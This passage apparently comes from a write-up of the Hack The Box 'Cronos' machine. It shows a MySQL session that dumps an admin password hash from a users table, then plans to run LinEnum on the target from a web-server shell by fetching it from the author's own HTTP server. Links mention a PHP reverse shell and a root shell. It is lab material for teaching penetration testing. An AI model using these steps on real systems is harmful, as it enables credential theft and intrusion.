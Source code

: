 ```bash
mysql -u admin -p
Enter password:  # Enter password discovered above
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 29
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.01 sec)

mysql> use admin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.01 sec)

mysql> select * in users;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'in users' at line 1
mysql> SELECT * FROM users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

Oh, well.
Let me grab a ton of info about the system with [LinEnum][].
Assuming I am in the web server's root directory having just made a `www-user` shell, I can run LinEnum like so.
This assumes I have set up `python3 -m http.server` on my machine to host the LinEnum script.


[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[command exec ls]: /assets/img/htb/cronos/ls-nettool.png
[php reverse shell]: /assets/img/htb/cronos/php-reverse-shell.png
[root shell]: /assets/img/htb/cronos/root-shell.png